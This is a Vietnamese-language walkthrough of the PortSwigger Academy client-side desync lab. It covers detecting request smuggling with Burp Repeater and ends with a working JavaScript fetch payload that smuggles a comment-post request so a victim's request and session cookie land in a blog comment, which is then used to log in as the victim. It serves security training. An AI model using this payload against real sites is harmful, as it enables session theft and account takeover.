






# Client-Side Desync
https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync

## Phân tích

- Dùng diagram dưới để detect

- Check homepage, ta thấy 302 redirect tới `/en`

- Check với HTTP/2 xem có work ko bằng cách upgrade to HTTP/2

- Thấy error, check Allow HTTP/2 ALPN override, send, ta thấy Stream failed --> ko chạy đc với HTTP/2, back về HTTP/1.1

- Gởi 1 request sau (nhớ tắt update Content-Length trong request repeater)

  - Specify CL=20 để trả về timeout vì ko có body request
  - Ta thấy server response 200 OK
  - Đúng là phải timeout --> detect client-side desync (CSD)
- Xác nhận CSD
  - Send attack
  
  - Check normal res
  
- Confirm client-side desync in the Browser (thêm Connection: keep-alive trong attack req, group attack+normal với Single connection)
  - Attack req
  
  - Normal req
  
  ==> yes, confirm CSD work
- Nãy giờ là ta dùng trên Burp để xác nhận CSD, giờ ta dùng web để xem thực tế CSD có chạy ko
  - Tạo 1 file js như sau, idea là làm lại những gì làm ở burp bao gồm cả attack + normal req
  
  - Chạy trên chrome console (nhớ tắt Burp proxy)
  
  
  - Ta thấy có 404 not found --> ok
- Identify an exploitable gadget
  - Add thử 1 comment trong blog, gởi vào burp
  
  - Smuggle post comment req trong attack req
  
  - Lưu ý CL: 400 vì ta muốn thấy các nội dung của response victim sẽ append vào trong comment
  
  - Smuggling thành công
  
- Confirm the vulnerable gadget in the browser
  - Tạo js để smuggle post comment thay vì GET /404
  
  
  ```
  fetch("https://0a0a00b20453f9b38034a88e00eb00fe.h1-web-security-academy.net/",{
  method:"POST",
  body: "POST /en/post/comment HTTP/1.1\r\nHost: 0a0a00b20453f9b38034a88e00eb00fe.h1-web-security-academy.net\r\nCookie: session=74fSjPcaajbmV0BluUhymsQEWAqQzkK4\r\nContent-Length: 400\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\ncsrf=0PExVl7oweyN5w3pWRQucVZ6ldiBivSY&postId=5&name=cong&email=cong%40gmail.com&website=&comment=test4",
  credentials: "include", //ensure we use the 'with-cookie' connectio pool
  mode: "cors", //will show an error, ensure we dont follow 302 redirect
  }).catch(() => {
  fetch("https://0a0a00b20453f9b38034a88e00eb00fe.h1-web-security-academy.net/en", {
  credentials: "include",
  mode: "no-cors", //won't trigger the error
  });
  });
  ```
  
  - On console:
  
  
  
  - Craft exploit server (nhớ add script tag)
  
  - Deliver to victim
  
  - Ta thấy response của victim đã in trên comment nhưng ko thấy session cookie vì CL ko đủ để hiển thị
  - Vào exploit server, Tăng CL lên (400 --> 900), check comment
  
  - Login with session id đó (dùng Cookie-editor extension của Chrome)
  